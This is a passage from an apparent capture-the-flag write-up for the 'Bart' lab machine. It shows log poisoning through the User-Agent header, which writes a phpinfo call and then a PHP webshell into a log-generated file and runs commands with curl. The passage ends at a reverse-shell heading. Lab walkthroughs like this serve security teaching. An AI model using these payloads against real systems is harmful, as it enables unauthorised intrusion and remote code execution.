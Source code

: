 
When the user clicks the `Log` link, there’s a popup saying “Done”, and then
one saying “1”. That’s because the `xhr.open` function is called with the 3rd
parameter `true`, which sets the call to async mode. The script then alerts
“Done”, and then, when the http request comes back, the xhr.onreadystatechange
function is called, which alerts with the response text.

Checking out the url that’s being called, if viewed directly, it outputs just
the number 1, as seen in the popup.

If you change the file parameter to a file that already exists and we can’t
write over (like the page source), it returns 0. Also, if you change it to a
user that doesn’t exist, it returns 0. What about the file? Turns out that
file is available in the same directory:

    
    
    [2018-02-21 22:35:17] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
    

Each time someone visits `log.php`, it appears to record the time, the
username argument, and their useragent string.

So let’s see if we can get execution by writing to phpinfo.php with useragent
`<?php phpinfo(); ?>`.

    
    
    root@kali# python3
    Python 3.6.5rc1 (default, Mar 14 2018, 06:54:23)
    [GCC 7.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import requests
    >>> proxies={'http':'http://127.0.0.1:8080'}
    >>> headers={'User-Agent':'0xdf: <?php phpinfo(); ?>'}
    >>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', proxies=proxies, headers=headers)
    

Then visit `http://internal-01.bart.htb/log/phpinfo.php`:
![phpinfo](https://0xdfimages.gitlab.io/img/phpinfo-internal-01.bart.htb.png)

#### PHP Webshell

So a webshell is possible:

    
    
    >>> headers={'User-Agent':"0xdf: <?php system($_REQUEST['cmd']); ?>"}
    >>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=0xdf.php&username=harvey', proxies=proxies, headers=headers)
    
    
    
    root@kali# curl http://internal-01.bart.htb/log/0xdf.php?cmd=whoami
    [2018-04-28 22:55:12] - harvey - 0xdf: nt authority\iusr
    

#### Nishang Invoke-PowerShellTcp Shell
